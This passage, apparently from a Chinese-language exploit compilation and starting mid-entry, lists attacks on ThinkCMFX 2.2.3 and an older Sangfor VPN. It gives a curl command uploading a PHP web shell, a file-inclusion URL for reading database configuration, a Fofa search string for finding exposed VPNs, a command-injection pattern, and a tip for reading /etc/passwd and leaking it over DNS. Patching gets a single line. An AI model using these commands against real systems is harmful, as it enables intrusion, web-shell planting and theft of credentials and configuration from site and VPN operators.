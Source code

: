 Content-Length: 27

imgurl=......\\test.txt  

### 任意文件上传

在 ThinkCMFX2.2.3 最终版中，存在一处任意文件上传（需要普通用户权限，默认可注册）

curl -F "file=@/tmp/shell.php" -X "POST" -b 'PHPSESSID=qekmttucmue6vv41kpdjghnkd0;' 'http://127.0.0.1/ThinkCMFX/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile'

### 任意文件包含（读取数据库配置等等）

/index.php?a=display&templateFile=README.md  

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

深信服 VPN 相关

  

1.  漏洞简介
    
    深信服 VPN 某个特定产品存在远程代码执行, 2019 攻防演练使用过
    
2.  影响组件
    
    深信服 VPN
    
3.  漏洞指纹
    
    Set-Cookie: TWFID=welcome to ssl vpn Sinfor
    
4.  Fofa Dork
    
    header="Set-Cookie: TWFID="
    
5.  漏洞分析
    
    深信服 vpnweb 登录逆向学习 – potatso – 博客园
    
    https://www.cnblogs.com/potatsoSec/p/12326356.html
    
6.  漏洞利用
    
    （简单的命令注入）
    
    wget -t %d -T %d --spider %s
    
7.  利用技巧
    
    该版本深信服 VPN 属于相对早期的版本, 大概 2008 年左右, 但目前还有 761 个 ip 开放在公网
    
    该版本较低, whomai 不存在, 可以使用 uname, 这里没有空格可 dns 传出来
    
    去除空格也简单 cat /etc/passwd | tr "\\n" "+|"
    
8.  防护方法
    
    及时更新补丁升级到最新版
    

![](https://mmbiz.qpic.cn/mmbiz_png/ffq88LJJ8oPhzuqa2g06cq4ibd8KROg1zLzfrh8U6DZtO1oWkTC1hOvSicE26GgK8WLTjgngE0ViaIFGXj2bE32NA/640?wx_fmt=png)

